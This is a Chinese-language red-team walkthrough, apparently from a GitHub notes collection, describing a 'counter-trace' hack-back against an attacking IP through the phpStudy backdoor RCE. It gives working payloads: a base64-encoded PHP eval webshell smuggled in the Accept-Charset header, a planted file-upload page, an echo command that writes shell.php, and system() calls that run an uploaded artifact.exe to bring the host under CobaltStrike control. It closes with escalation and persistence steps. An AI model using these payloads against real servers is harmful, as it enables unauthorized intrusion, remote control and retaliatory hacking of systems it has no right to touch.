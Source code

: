 > **流量监测设备发现入侵事件**

流量监测设备发现某IP存在高危攻击事件，开始对此IP进行反制溯源

![](images/phpstudy_backdoor-1-1.png)

> **Xray进行漏洞探测**

使用xray对恶意IP进行漏洞探测，发现存在`phpstudy-backdoor-rce`漏洞

![](images/phpstudy_backdoor-1-2.png)

> **方法一：AntSword连接Webshell上线CobaltStrike**

1. 配置蚁剑连接，编解码器使用`base64`

![](images/phpstudy_backdoor-1-3.png)

2. 利用漏洞进行无文件webshell连接，webshell直接写入请求头参数`Accept-Charset`（参数值要使用`base64`编码）

   - `base64`编码前代码为

     - ```php
       eval($_REQUEST['cmd']);
       ```

   - `base64`编码后代码为

     - ```
       ZXZhbCgkX1JFUVVFU1RbJ2NtZCddKTs=
       ```

![](images/phpstudy_backdoor-1-4.png)

3. 上传后门文件artifact.exe

![](images/phpstudy_backdoor-1-5.png)

4. 蚁剑静态终端执行后门文件上线CobaltStrike

![](images/phpstudy_backdoor-1-6.png)

> **方法二：制作表单页面上传**

1. 在`Accept-Charset`参数出创建一个文件上传页面，页面代码如下

   ```php+HTML
   <html><head><meta charset="utf-8"></head><body>
       <?php if(!isset($_POST['submit'])){?>
       <form action="" method="POST" enctype="multipart/form-data"><input type="file" name="upfile"/><input type="submit" name="submit" value="文件上传"></form>
       <?php }else{
           $tmp_name = $_FILES['upfile']['tmp_name'];
           $target_name = './' .$_FILES['upfile']['name'];
           if(move_uploaded_file($tmp_name, $target_name)){
               echo'文件上传成功';
           }else{
               echo'文件上传失败';
           }
       }?>
   </body></html>
   ```

2. 然后访问文件上传页面，上传后门actifact.exe

3. 在`Accept-Charset`参数执行后门文件上线CobaltStrike

   ```php
   system('C:\phpStudy\WWW\artifact.exe');
   ```

> **方法三：直接写webshell到目标服务器**

1. 写入webshell到目标服务器

   ```php
   system('echo ^<?php eval($_REQUEST[\'cmd\']);?^> > C:\phpStudy\WWW\shell.php');
   ```

2. 然后按照方法一，用蚁剑连接webshell页面，上传后门并执行，上线CobaltStrike

> **权限维持、提权**

1. 由于目标系统phpStudy服务以管理员账号运行，通过此漏洞上线直接获取目标服务器管理员权限

![](images/phpstudy_backdoor-1-7.png)

2. Powershell、进程注入获取系统权限并进行权限维持

![](images/phpstudy_backdoor-1-8.png)
